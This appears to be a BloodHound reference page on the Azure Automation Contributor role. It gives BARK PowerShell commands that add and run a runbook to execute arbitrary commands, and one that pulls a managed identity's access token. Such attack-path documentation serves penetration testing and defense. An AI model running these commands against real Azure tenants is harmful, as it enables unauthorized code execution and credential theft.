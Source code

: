 ---
title: AZAutomationContributor
description: The Azure Automation Contributor role grants full control of the target Azure Automation Account. This includes the ability to execute arbitrary commands on the Automation Account.
---

<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>

## Abuse Info

You can use BARK’s New-AzureAutomationAccountRunBook and Get-AzureAutomationAccountRunBookOutput functions to execute arbitrary commands against the target Automation Account.

These functions require you to supply an Azure Resource Manager scoped JWT associated with the principal that has the privilege to add or modify and run Automation Account run books. There are several ways to acquire a JWT. For example, you may use BARK’s Get-ARMTokenWithRefreshToken to acquire an Azure RM-scoped JWT by supplying a refresh token:

```bash
$ARMToken = Get-ARMTokenWithRefreshToken `
    -RefreshToken "0.ARwA6WgJJ9X2qk..." `
    -TenantID "contoso.onmicrosoft.com"
```

Now you can use BARK’s New-AzureAutomationAccountRunBook function to add a new runbook to the target Automation Account, specifying a command to execute using the -Script parameter:

```bash
New-AzureAutomationAccountRunBook `
    -Token $ARMToken `
    -RunBookName "MyCoolRunBook" `
    -AutomationAccountPath "https://management.azure.com/subscriptions/f1816681-4df5-4a31-acfa-922401687008/resourceGroups/AutomationAccts/providers/Microsoft.Automation/automationAccounts/MyCoolAutomationAccount" `
    -Script "whoami"
```
After adding the new runbook, you must execute it and fetch its output. You can do this automatically with BARK’s Get-AzureAutomationAccountRunBookOutput function:

```bash
Get-AzureAutomationAccountRunBookOutput `
    -Token $ARMToken `
    -RunBookName "MyCoolRunBook" `
    -AutomationAccountPath "https://management.azure.com/subscriptions/f1816681-4df5-4a31-acfa-922401687008/resourceGroups/AutomationAccts/providers/Microsoft.Automation/automationAccounts/MyCoolAutomationAccount"
```
If the Automation Account has a managed identity assignment, you can use these two functions to retrieve a JWT for the service principal like this:

```bash
$Script = $tokenAuthURI = $env:MSI_ENDPOINT + "?resource=https://graph.microsoft.com/&api-version=2017-09-01"; $tokenResponse = Invoke-RestMethod -Method Get -Headers @{"Secret"="$env:MSI_SECRET"} -Uri $tokenAuthURI; $tokenResponse.access_token
New-AzureAutomationAccountRunBook -Token $ARMToken -RunBookName "MyCoolRunBook" -AutomationAccountPath "https://management.azure.com/subscriptions/f1816681-4df5-4a31-acfa-922401687008/resourceGroups/AutomationAccts/providers/Microsoft.Automation/automationAccounts/MyCoolAutomationAccount" -Script $Script
Get-AzureAutomationAccountRunBookOutput -Token $ARMToken -RunBookName "MyCoolRunBook" -AutomationAccountPath "https://management.azure.com/subscriptions/f1816681-4df5-4a31-acfa-922401687008/resourceGroups/AutomationAccts/providers/Microsoft.Automation/automationAccounts/MyCoolAutomationAccount"
```
If successful, the output will include a JWT for the managed identity service principal.

## Opsec Considerations

This will depend on which particular abuse you perform, but in general Azure will create a log event for each abuse.

## References
* [https://github.com/BloodHoundAD/BARK](https://github.com/BloodHoundAD/BARK)
* [https://posts.specterops.io/managed-identity-attack-paths-part-1-automation-accounts-82667d17187a](https://posts.specterops.io/managed-identity-attack-paths-part-1-automation-accounts-82667d17187a)
